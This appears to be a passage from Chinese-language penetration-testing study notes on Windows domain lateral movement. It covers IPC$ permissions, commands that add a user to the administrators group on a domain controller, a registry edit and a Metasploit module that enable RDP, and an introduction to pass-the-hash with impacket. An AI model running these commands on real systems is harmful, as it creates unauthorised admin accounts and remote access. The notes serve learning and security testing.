 
这是因为权限问题

[关于IPC和PTH用户权限问题 | AresX's Blog](https://ares-x.com/2020/03/10/关于IPC和PTH用户权限问题/)

> 可以建立ipc$连接：
>
> - 域用户，并且该域用户在远程计算机的管理员组中。
>
> - 本地管理员用户
>
> （如果本地管理员组启用了Administrator，那么本地管理员里只有Administrator是可以连接的）

```powershell
net user khaz123 khaz777... /add
net localgroup administrators username /add
```

将khaz123用户添加到域控的本地管理员组中（因为是域控服务器添加用户，该用户自动为域用户），ipc$连接成功

![image-20230330235734609](../../../images/image-20230330235734609-1686283281462.png)





#### 远程桌面连接

同一时刻只能有一个用户登录

![image-20230331194248211](../../../images/image-20230331194248211-1686283281462.png)

##### windows

```cmd
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```



##### msf

> 实际上post/windows/manage/enable_rdp就是利用了上面windows修改注册表的方式开启3389端口

```shell
run post/windows/manage/enable_rdp
rdesktop ip 
```

![image-20230324160952786](../../../images/image-20230324160952786-1686283281462.png)



#### PTH 哈希传递攻击

> 挑战响应机制，只要知道NTLM哈希，无需知道明文密码，就可以通过认证

- impacket

安装：`sudo apt install python3-impacket`
